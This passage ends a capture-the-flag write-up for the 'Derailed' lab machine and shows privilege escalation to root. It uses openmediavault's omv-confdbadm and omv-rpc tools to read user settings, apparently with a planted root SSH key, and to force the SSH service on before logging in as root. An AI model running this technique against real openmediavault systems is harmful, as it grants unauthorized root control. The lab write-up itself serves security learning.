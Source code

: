 > ```/usr/sbin```

The ```/usr/sbin``` file contains loads of ```omv``` related tools too:

```bash
openmediavault-webgui@derailed:/usr/sbin$ ./omv-confdbadm read conf.system.usermngmnt.user
[{"uuid": "30386ffe-014c-4970-b68b-b4a2fb0a6ec9", "name": "rails", "email": "", "disallowusermod": false, "sshpubkeys": {"sshpubkey": []}}, {"uuid": "e3f59fea-4be7-4695-b0d5-560f25072d4a", "name": "root", "email": "", "disallowusermod": false, "sshpubkeys": {"sshpubkey": ["---- BEGIN SSH2 PUBLIC KEY ----\nComment: \"3072-bit RSA, converted by openmediavault-webgui@derailed fr\"\nAAAAB3NzaC1yc2EAAAADAQABAAABgQDPsdfneMWLTAENR6cBfDLOh84rASxx8/EYM7X+mm\nLF9zmq0/kOfVqyg1Kcjdj0aJTXQas7i98u4EseF2xKZnaeQGrjk2YWrhDj8hTk7Gql0+lp\n+rlJMGigaq+YQ+oh4Vop510N+TAiq53mNZR2CEkZ/RB4k4P/9utUbofr14DhhDJ637LBoZ\nOj0TexCVyVotYjTSHFaZ8SRIQJ4/2Kwd25+hJXtcnWv6mMe39OOnFhB//9ZTdidR71Fyd3\nx1yMn8846MdWnuXNs/Kl7YzgnCAsmcW7XxsewmwCkHu7hn8RSrPeQAi8omsDQ+6BsOEMRg\nj38J+DZUZETlu+XlomhNecwNVrsam5ImSDVRLnt9ZcsKmQ8uKcynFrx79xJs2tUrETdTVG\naaGxH92GZTltF5FOpneJCxB5tczct8vSJnzyDJp/EgGeBrYD3h1APjErR4EK49lY4t0niz\n6yYrEq8p/a7sX8D2G/XvsegIfMte+2ng8J9YoSpiprtQseMiaFIHE=\n---- END SSH2 PUBLIC KEY ----"]}}]
```

and then we have to force ssh with omv-rpc tool :

```bash
openmediavault-webgui@derailed:/usr/sbin$ ./omv-rpc -u admin "config" "applyChanges" "{ \"modules\": [\"ssh\"],\"force\":true}"
null
openmediavault-webgui@derailed:/usr/sbin$ 
```


Now, we can easily SSH into the system using ```ssh root@derailed.htb```, and as a result, we have obtained a shell with ```root``` privileges!

```bash
openmediavault-webgui@derailed:/tmp$ ssh rooterailed
ssh: Could not resolve hostname rooterailed: Name or service not known
openmediavault-webgui@derailed:/tmp$ ssh root@derailed
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jul 21 06:29:50 2023 from 127.0.0.1
root@derailed:~# ls
google	meta  root.txt
root@derailed:~# cat root.txt 
797ea56d36caa4b3d53b************
```

***

Thanks for reading! if you have any questions or comments, feel free to contact me at emsecpro@gmail.com. 

Happy hacking! 👾❤️
see you guys  in another insane box

